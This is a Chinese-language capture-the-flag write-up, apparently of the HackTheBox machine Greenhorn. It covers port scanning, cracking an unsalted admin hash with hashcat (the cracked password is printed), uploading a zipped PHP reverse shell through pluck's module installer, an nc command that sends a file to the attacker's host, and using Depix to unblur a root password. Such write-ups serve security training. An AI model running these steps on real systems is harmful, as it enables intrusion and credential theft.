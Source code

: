 ```yaml
---
description: Easy / 枚举 / 阅读源码 / 文件上传 / 图像解析
---
```


# ✔️ Greenhorn

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描，获得3个开放端口：

```bash
nmap -sC -sV -p- -oA greenhorn 10.129.61.36 --open
```

<figure><img src="../../.gitbook/assets/1 (22).png" alt=""><figcaption></figcaption></figure>

* 将IP和域名添加到/etc/hosts文件后，开始检查80端口上的内容，发现了目标正在运行的软件pluck和admin登录的入口：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 进入admin面板后发现了pluck的版本（4.7.18），随后尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (5).png" alt=""><figcaption></figcaption></figure>

* 转到3000端口依次对其内容进行信息收集，发现其正在运行的是Gitea 1.21.11并且还有目标系统的源码：

<figure><img src="../../.gitbook/assets/8 (21).png" alt=""><figcaption></figcaption></figure>

* 其中有几个文件可以重点关注：admin.php / login.php

<figure><img src="../../.gitbook/assets/9 (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (22).png" alt=""><figcaption></figcaption></figure>

* 在`login.php`这个文件中，其源码描述了关于用户登陆验证的过程。其中使用了SHA-512算法加密了密码(未加盐)，这意味着可以使用暴力破解。并且也指明了密码文件是pass.php：

<figure><img src="../../.gitbook/assets/11 (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (22).png" alt=""><figcaption></figcaption></figure>

* `pass.php`位于/data/settings/pass.php该路径下，里面有一个hash密码，把它保存为一个hashes.txt文件用于后续暴破：

<figure><img src="../../.gitbook/assets/13 (22).png" alt=""><figcaption></figcaption></figure>

* 在hash example上查找对应的模式，用于hashcat暴破（不确定是哪种就附近几个都试一下）：

<figure><img src="../../.gitbook/assets/14 (21).png" alt=""><figcaption></figcaption></figure>

```bash
hashcat -m 1700 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/15 (20).png" alt=""><figcaption></figcaption></figure>

* 暴破出明文密码：<mark style="color:red;">**iloveyou1**</mark>，由此获得第一个有效凭证: <mark style="color:red;">**admin : iloveyou1**</mark>

<figure><img src="../../.gitbook/assets/16 (19).png" alt=""><figcaption></figcaption></figure>

* 利用该凭证成功登录80端口的admin界面：

<figure><img src="../../.gitbook/assets/17 (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (15).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在信息枚举阶段获取到的Web页面运行的pluck 4.7.18确实是有一个远程代码执行的漏洞，但是在本例中的漏洞利用阶段仅起到了辅助作用，并未直接利用：

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

* 从该漏洞脚本中可以确认其上传文件的类型是zip类型，这为后续上传反弹shell做了提示：

<figure><img src="../../.gitbook/assets/7 (23).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 通过之前收集到的信息和发现的可利用脚本得知，可以往包含漏洞的目标系统上上传利用脚本，这里直接上传常用的一个php的反弹shell脚本（pentestmonkey），修改自己的kali本机IP和端口，做好监听:

<figure><img src="../../.gitbook/assets/21 (12).png" alt=""><figcaption></figcaption></figure>

* 本例中有两个可以上传的功能点，一个是manage files，一个是manage modules，分别尝试等待回连：

<figure><img src="../../.gitbook/assets/22 (12).png" alt=""><figcaption></figcaption></figure>

* 直接上传php脚本可以上传成功，但是无法触发，因为目标做了保护直接在我的脚本后面加了txt后缀：

<figure><img src="../../.gitbook/assets/23 (12).png" alt=""><figcaption></figcaption></figure>

* 根据之前找到的pluck 4.7.18远程代码执行漏洞的脚本提示，需要将上传的文件压缩成ZIP文件才可以成功执行，所以把反弹shell脚本压缩成ZIP文件：

```bash
zip revershell.zip revershell.php
```

<figure><img src="../../.gitbook/assets/24 (10).png" alt=""><figcaption></figcaption></figure>

* 再次上传发现还是可以成功，但仍然无法执行回连：

<figure><img src="../../.gitbook/assets/25 (9).png" alt=""><figcaption></figcaption></figure>

* 切换测试下一个上传点

### GET SHELL

* 可尝试用之前的有效凭证登录一下ssh服务，但是失败：

<figure><img src="../../.gitbook/assets/18 (19).png" alt=""><figcaption></figcaption></figure>

* 在manage modules中的install a module中尝试上传反弹shell：

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

* 至此，上传成功后即可获得回连的shell：

<figure><img src="../../.gitbook/assets/28 (8).png" alt=""><figcaption></figcaption></figure>

* 但是当枚举出user.txt文件后，发现没有权限访问其内容：

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

* 因为该文件是位于junior用户的/home目录中，而我当前的用户是www-data，需要切换到junior账户下才能读取，这里又是一个密码重用的问题：

<figure><img src="../../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单的执行手动枚举时，发现当前账户junior并没有一些基本命令的执行权限：

<figure><img src="../../.gitbook/assets/31 (1).png" alt=""><figcaption></figcaption></figure>

* 并且在之前读取user.txt文件时，在其/home目录下还发现了一个PDF文件：Using OpenVAS.pdf

```bash
# 将远程文件传输到Kali本地：
nc 10.10.16.14 1234 < 'Using OpenVAS.pdf'
nc -lvnp 1234 > usingOpenVAS.pdf
```

<figure><img src="../../.gitbook/assets/32 (1).png" alt=""><figcaption></figcaption></figure>

* 该pdf文件描述了只有root用户可以使用\`sudo /usr/sbin/openvas\`命令，并且附上了密码，不过该密码被打上了码：

<figure><img src="../../.gitbook/assets/33 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例学习到了一个新工具：Depix，该工具是用于将打了码的模糊图像恢复成文本的工具。提供给该工具进行解析的图片文件不要用截图工具，直接将鼠标放在模糊的文本处，save image as...即可保存。
{% endhint %}

* Depix的使用方法在它的GitHub页面有说明 ：

<figure><img src="../../.gitbook/assets/34 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 运行Depix后解析出来了文本图片，该文本也就是root账户的明文密码，随后切换为root用户登录即可：

<figure><img src="../../.gitbook/assets/35 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

* 重新连接一下：

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段枚举、阅读源码和对各个上传点的尝试是重点，提权部分不算典型的OSCP机型，图像解析的部分更偏向于CTF。该机器确实不属于困难机器，只是之前没有遇到过将打码图片转换为清晰图像的情况。

(本例机器中途重置过，IP地址有改变，但不影响其利用过程和实现结果)
{% endhint %}
